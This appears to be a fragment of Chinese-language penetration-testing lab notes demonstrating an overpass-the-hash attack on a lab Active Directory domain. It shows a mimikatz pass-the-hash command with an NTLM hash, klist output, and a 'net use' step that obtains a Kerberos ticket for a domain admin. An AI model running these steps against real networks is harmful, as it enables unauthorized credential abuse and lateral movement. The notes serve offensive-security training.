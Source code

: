 ```
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
user    : jeff_admin
domain  : corp.com
program : cmd.exe
impers. : no
NTLM    : e2b475c11da2a0748290d87aa966c327
  |  PID  4832
  |  TID  2268
  |  LSA Process is now R/W
  |  LUID 0 ; 1197687 (00000000:00124677)
  \_ msv1_0   - data copy @ 040E5614 : OK !
  \_ kerberos - data copy @ 040E5438
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace -> null
```

用klist列出缓存的 Kerberos 票证

```
PS C:\Windows\system32> klist

Current LogonId is 0:0x1583ae

Cached Tickets: (0)
```

没有缓存 Kerberos 票证,通过使用net use对域控制器上的网络共享进行身份验证来生成 TGT

```
PS C:\Windows\system32> net use \\dc01
The command completed successfully.
```

再次klist查看
```
PS C:\Windows\system32> klist
#1> Client: jeff_admin @ CORP.COM
    Server: krbtgt/CORP.COM @ CORP.COM
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonica
    Start Time: 2/12/2018 13:59:40 (local)
    End Time:   2/12/2018 23:59:40 (local)
    Renew Time: 2/19/2018 13:59:40 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x1 -> PRIMARY
    Kdc Called: DC01.corp.com

#2> Client: jeff_admin @ CORP.COM
    Server: cifs/dc01 @ CORP.COM
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_c
    Start Time: 2/12/2018 13:59:40 (local)
    End Time:   2/12/2018 23:59:40 (local)
    Renew Time: 2/19/2018 13:59:40 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0
    Kdc Called: DC01.corp.com
```
